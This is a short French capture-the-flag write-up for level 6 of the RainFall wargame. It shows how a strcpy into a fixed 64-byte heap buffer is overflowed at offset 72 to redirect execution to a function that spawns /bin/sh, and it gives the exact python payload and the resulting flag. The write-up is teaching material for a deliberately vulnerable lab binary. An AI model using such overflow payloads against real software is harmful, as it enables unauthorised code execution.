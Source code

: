 # Level 6

On voit que le main contient un strcpy qui copy argv dans un buffer malloc a taille fix de 64 en tatonant on ce rend compte que le programme sgefault a 72.
```
level6@RainFall:~$ ./level6 kkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkkk
Segmentation fault (core dumped)
```
Il est donc possible d'overflow le buffer pour y executer la fonction `n` pas appeler, qui execute un `'/bin/sh`, il suffit donc de placer l'adresse de `n` (`08048454`) a l'offset du buffer *EBP* pour executer cette dernière.
```
level6@RainFall:~$ ./level6 $(python -c "print 'a' * 72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
level6@RainFall:~$
```
